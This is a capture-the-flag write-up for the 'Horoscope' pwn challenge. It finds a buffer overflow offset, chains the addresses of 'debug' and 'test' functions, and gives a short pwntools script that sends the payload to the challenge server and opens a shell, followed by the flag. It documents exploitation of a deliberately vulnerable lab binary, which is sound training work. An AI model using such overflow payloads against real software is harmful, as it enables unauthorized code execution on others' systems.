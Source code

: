 # pwn

## Horoscope
> Solved by: Taz34

Here we have a binary so the first thing i started to look for is to get a segmentation fault and we got it.


![](https://i.imgur.com/DQB46Va.png)


Now I started looking for offset so the offset multiple to be added is 42 
i.e.
 

    python3 -c "print('10/10/1999/10:' + '1'*42)"
    Hence the payload is: 10/10/1999/10:111111111111111111111111111111111111111111

Now we started looking at Ghidra, and we found a function “test” from which we can get a shell on target.

![](https://i.imgur.com/2LPxEzD.png)


here we have a problem that we need to make this (temp == 1) conditon true.
So, after going to other functions we found another function “debug”

![](https://i.imgur.com/NWfIhEj.png)


Now we can construct the final payload as:

    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + debug_fun_addr  + test_fun_addr

hence the final script:

    from pwn import *
    
    p = remote("horoscope.sdc.tf", 1337)
    
    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + p64(0x40096e) +p64(0x400950)
    
    p.sendline(payload)
    
    p.interactive()

now just execute this script to get the flag

![](https://i.imgur.com/QlX6mYU.png)

    Flag: sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}

